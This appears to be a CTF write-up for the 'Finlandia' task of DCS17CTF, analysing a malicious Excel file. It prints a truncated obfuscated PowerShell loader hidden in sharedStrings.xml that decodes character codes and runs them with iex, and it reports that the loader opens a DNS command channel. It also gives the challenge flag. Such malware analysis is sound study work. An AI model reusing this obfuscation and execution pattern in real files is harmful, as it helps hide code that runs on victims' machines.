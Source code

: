 # DCS17CTF S21Sec tasks and writeups
Tasks, scripts and writeups of most fun or interesting tasks of DCS17CTF (S21SEC)
https://challenge.s21sec.com

#### Finlandia – 400 points

![](https://i2.wp.com/blogs.tunelko.com/wp-content/uploads/2017/05/Finlandia.jpg?w=834&ssl=1)


I have an Excel suspicious file as title says and first thing is uncompress or extract contents. So use binwalk, rename as zip or whatever. Inside we have a vba bin file. We can use oledump.py to view its contents.

![](https://i0.wp.com/blogs.tunelko.com/wp-content/uploads/2017/05/fact-vba.jpg?resize=768%2C268&ssl=1)


After some time trying to decompress and decode vba bin file , seems no exit so i ‘ve start to search for other files. I have see one in particular. **sharedStrings.xml**:


```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="1" uniqueCount="1"><si><t>('83G116G97B114E1...[]...C112B116B98B108C111H99H107C32G123H1'.SplIt('BHECG')|%{([Char][Int]$_)} )-Join''|iex|out-null</t></si></sst>
```

So, this is powershell obfuscated code, let’s try to see it’s contents.

![](https://i2.wp.com/blogs.tunelko.com/wp-content/uploads/2017/05/fact-ps1.jpg?resize=768%2C321&ssl=1)

It creates a DNS client to pass commands on powershell.  Flag is **f25a2fc72690b780b2a14e140ef6a9e0**





